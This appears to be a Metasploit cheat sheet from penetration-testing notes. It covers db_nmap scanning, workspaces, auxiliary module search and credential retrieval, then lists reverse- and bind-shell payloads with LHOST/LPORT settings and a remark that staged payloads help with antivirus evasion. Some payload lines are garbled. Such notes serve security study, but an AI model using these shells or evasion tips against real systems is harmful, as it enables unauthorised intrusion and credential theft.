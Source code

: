 ## Database access

```bash
msf > services
msf > db_nmap $IP -A -Pn # with db_nmap you can use nmap as usual
msf > hosts # hosts already discovered

# List workspace, change, add (-a) or delete (-d)
msf > workspace
msf > workspace test
msf > workspace -a new
```

## Auxiliary modules

```bash
msf > search type:auxiliary name:smb
    use ...
    info
    setg
    creds # retrieve successful login attempts
```

## Exploit modules

```bash
msf > show payloads
windows/shell_bind_tcp normal Windows Command Shell, Bind TCP Inli 
windows/shell_hidden_bind_tcp normal Windows Command Shell, Hidden Bind T on i 
windows/shell_reverse_tcp normal Windows Command Shell, Reverse TCP I An 
windows/speak_pwned normal Windows Speech API - Say "You Got Pw t 
windows/upexec/bind_hidden_ipknock_tcp 04normal Windows Upload/Execute, Hidden Bind

msf > check // after setting the parameters, check if the target is vulnerable

msf > set verbose true
```

## Payloads

{% tabs %}
{% tab title="Staged vs Non-Staged" %}
{% code overflow="wrap" %}
```bash
https://medium.com/@nmappn/msfvenom-payload-list-77261100a55b

windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell 
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
windows/x64/shell_reverse_tcp
linux/x86/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -o non-staged.out -f elf-so
linux/x86/shell/reverse_tcp LHOST=$LOCALIP LPORT=443 -o staged.out -f elf-so
linux/x64/shell/reverse_tcp

Staged is sent in two parts, suitable if the vuln does not have enough buffer space
Also better for AV evasion
```
{% endcode %}
{% endtab %}
